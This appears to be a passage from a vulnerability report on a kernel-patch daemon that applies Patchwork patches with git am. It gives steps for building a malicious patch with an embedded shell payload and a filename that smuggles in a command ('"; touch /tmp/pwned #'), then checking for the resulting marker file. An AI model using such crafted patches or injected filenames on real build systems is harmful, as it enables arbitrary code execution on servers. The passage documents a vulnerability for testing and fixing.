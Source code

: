               ```
              #!/bin/bash
              echo "Malicious code executed!" > /tmp/malicious_output
              ```
              To embed this in the email format for `git am`, you can use a simple bash script to generate the email format patch:
              ```bash
              #!/bin/bash
              cat <<EOF > malicious.patch
              From: Attacker <attacker@example.com>
              Date: Tue, 26 Sep 2023 10:00:00 +0000
              Subject: [PATCH] Malicious patch

              This patch adds a benign comment and executes malicious code.

              \`\`\`
              #!/bin/bash
              echo "Malicious code executed!" > /tmp/malicious_output
              \`\`\`

              ```diff
              --- a/README.md
              +++ b/README.md
              @@ -1,1 +1,2 @@
              # Kernel Patches Daemon
              +# This is a benign comment.

              EOF
              ```
    3. Patch Injection:
        - Configure the mock Patchwork system to serve the `malicious.patch` content when the daemon requests the patch series. This might involve creating a mock API endpoint that returns the content of `malicious.patch` in response to the daemon's request for the patch series Mbox URL.
    4. Daemon Processing:
        - Trigger the daemon to process new patch series (e.g., by adding the malicious series to the mock Patchwork system).
        - Monitor the daemon's logs to confirm it is processing the malicious series.
    5. Verification:
        - Check for the execution of the malicious payload. Verify if the file `/tmp/malicious_output` was created on the server running the daemon.
    6. Expected Result:
        - The file `/tmp/malicious_output` should be created, indicating successful arbitrary code execution due to the unsafe patch application vulnerability.
    Or alternatively using malicious filename:
    1. **Setup:**
        - Set up a test Patchwork instance (or use a mock).
        - Configure a `kpd` instance to monitor this test Patchwork instance and a test Git repository.
        - Ensure the `kpd` instance is running and processing patches.
    2. **Craft Malicious Patch:**
        - Create a malicious patch file (`malicious.patch`) with a crafted filename to inject a command. For example, create a file named `"; touch /tmp/pwned #"` and add some content to it. The patch should look something like this:
        ```diff
        --- a/file1.txt
        +++ b/file1.txt
        @@ -1,1 +1,1 @@
        -Initial content
        +Updated content
